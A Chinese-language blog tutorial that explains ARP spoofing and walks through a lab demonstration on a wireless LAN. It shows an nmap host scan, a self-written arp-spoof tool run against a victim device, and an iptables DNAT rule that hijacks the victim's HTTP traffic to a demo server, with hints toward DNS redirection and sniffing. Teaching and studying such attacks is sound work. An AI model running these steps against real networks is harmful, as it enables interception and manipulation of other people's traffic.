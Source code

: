 ```yaml
---
layout: post
title: "ARP spoofing"
subtitle: "通过 ARP 欺骗劫持 HTTP 流量"
date: 2019-02-15 17:48
tags: 
    - TCP/IP
    - Linux
---
```


主机上线到一个网络之后会获得至少一个 IP 地址（比如 DHCP 或静态地址）。IP 地址能反映网络的拓扑结构，但 IP 地址并不能唯一地标识一个网络接口；能够唯一标识一个网卡的是在制造出厂时写入的 6 字节的 MAC 地址。一个 IP 数据包在到达另一个接口之前，需要知道目的地 IP 地址的 MAC 地址。ARP 就是一个将 IP 地址解析为 MAC 地址的协议，而一个基于以太网之上的 ARP 数据包结构如下

![Internet Protocol(IPv4) over Ethernet ARP packet]({{ "img/arp-spoofing-packet.png" | absolute_url }})

由于 ARP 的使用者不检查 ARP 数据包的真实性，ARP 的请求和应答容易受到第三者的干扰，特别是在一些共享介质的链路（比如无线局域网）。在多数情况下，攻击者将自身的 MAC 地址和网关的 IP 写入 ARP 应答，向受害者发送这个虚假的 ARP 应答，把自己伪装成网关并拦截了受害者的数据包。这种网络攻击被成为 ARP 欺骗(ARP spoofing)，也是一种主动嗅探(active sniffing)，对应被动嗅探(passive sniffing, 比如在共享介质链路中将网卡置于混杂模式)。

下文记录一个在无线局域网中实施 ARP 攻击并劫持 HTTP 流量到服务器 demo 的过程。这个发送 ARP 应答的程序使用到了 libpcap 而且直接从系统的 ARP 缓存获取 IP 地址对应的 MAC 地址。

- OS: Ubuntu 16.04 x64
- Requirement: libpcap, nmap，python 3.5

首先通过 `ipconfig -a` 决定要用来实施攻击的网卡名称，以及对应的网段

```
kenny@kenny-X450LD:~$ ifconfig
wlan0     Link encap:Ethernet  HWaddr 11:22:33:44:55:66  
          inet addr:192.168.43.24  Bcast:192.168.43.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:24 errors:0 dropped:244 overruns:0 frame:0
          TX packets:74 errors:0 dropped:1 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:7509332 (7.5 MB)  TX bytes:1491944 (1.4 MB)
```

在这里我用的是 `wlan0`，网段为 192.168.43.24/24。然后使用
`nmap` 发现局域网的其他主机。选项 `-sn` 表示不进行端口扫描以节省时间：

```
kenny@kenny-X450LD:~$ sudo nmap -sn 192.168.43.24/24

Starting Nmap 7.01 ( https://nmap.org ) at 2019-02-15 20:55 CST
Nmap scan report for 192.168.43.1
Host is up (0.12s latency).
MAC Address: 22:39:56:76:90:6B (Unknown)
Nmap scan report for Kennico (192.168.43.79)
Host is up (0.075s latency).
MAC Address: 24:1B:7A:10:14:FC (Unknown)
Nmap scan report for kenny-X450LD (192.168.43.24)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 11.26 seconds
```

如果不使用 root 权限， `nmap` 会显示设备的名称而不是 MAC 地址。接下来选择 192.168.43.79(24:1B:7A:10:14:FC) 作为受害者。

由于我实现的程序使用系统 ARP 缓存，需要先添加这个记录到 ARP 缓存（同样需要 root 权限）：

```
kenny@kenny-X450LD:~$ sudo arp -s 192.168.43.79 24:1B:7A:10:14:FC
kenny@kenny-X450LD:~$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.43.79            ether   24:1b:7a:10:14:fc   CM                    wlan0
192.168.43.1             ether   22:39:56:76:90:6b   C                     wlan0
```

接下来运行发送 ARP 应答的程序。libpcap 的 `pcap_open_live` 函数需要 root 权限：

```
kenny@kenny-X450LD:~$ sudo ./arp-spoof -e wlan0 192.168.43.79
DEBUG: get_gateway_ip - Command: route -n | grep -P '^0\.0\.0\.0.+UG.+wlx502b73dc543f$'
DEBUG: Command: arp -n | awk '$0 !~ "incomplete"' | grep -oP '(\w{2}:){5}\w{2}|((\d+\.){3}\d+)'
DEBUG: device "wlan0" opened successfully.
DEBUG: ip=192.168.43.79 secs=10 pkts=-1 twoway=0
Attacking 192.168.43.79(24:1B:7A:10:14:FC)...
```

选项 `-e` 指定网卡；`-n` 为两次发送的时间间隔，以秒为单位；`-c` 表示发送应答的数目，缺省则一直循环。接着拉起一个 HTTP 服务器 demo：

```python
#
# python3 http_server.py
#
from http.server import SimpleHTTPRequestHandler
from socketserver import ThreadingTCPServer

page = """
<html>
<header><title>This is title</title></header>
<body>
Hello world
</body>
</html>
"""

class demoHttpRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Connection', 'close')
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(page.encode('utf-8'))

if __name__ == '__main__':
    try:
        httpd = ThreadingTCPServer(('127.0.0.1', 8080), demoHttpRequestHandler)
        httpd.serve_forever()
    except KeyboardInterrupt:
        print('httpd exits.')
```

服务器监听 127.0.0.1:8080。接下来是最重要的一步：将拦截到的 HTTP 流量转发到服务器 demo:

```shell
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp -s 192.168.43.79 --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```
这里的 `iptables` 添加一个规则到内核的 NAT 表(`-t nat`)，将规则追加(`-A`)到 PREROUTING 匹配链，表示在选择路由之前检查满足的条件的数据包：

- 来自 wlan0 (`-i`)
- 协议为 TCP (`-p`)
- 发送者为 192.168.43.79 (`-s`)
- 接收者端口为 80

一旦匹配成功就采取行动(`-j`)，将数据包转发到 127.0.0.1:8080(`-DNAT`表示更改接收者的地址)。使用 `iptables` 还有一个好处，一些原本需要绑定到低端口(<1024)服务器，现在可以绑定到高端口，因此服务器本身 **不需要 root 权限** 。

```
kenny@kenny-X450LD:~$ sudo iptables -t nat -L -v
Chain PREROUTING (policy ACCEPT 657 packets, 42591 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    5   320 DNAT       tcp  --  wlan0  any     192.168.43.79        anywhere             tcp dpt:http to:127.0.0.1:8080
...
```

下图为受害者设备用 chrome 访问 8.8.8.8 的截图（众所周知 8.8.8.8 是谷歌公共 DNS），可见 HTML 页面即为脚本里的字符串内容：

![HTTP]({{ "img/arp-spoofing-http.png" | absolute_url }})

上图中的设备直接访问给定 IP 的 80 端口。如果要访问一个域名，则还需要用 `iptables` 转发来自 53 端口 DNS 请求；除此之外，如果要实现嗅探 HTTP/HTTPS 流量，就应该拉起来透明代理而不是那个 HTTP demo，然后打开 wireshark 就可以很方便地进行抓包。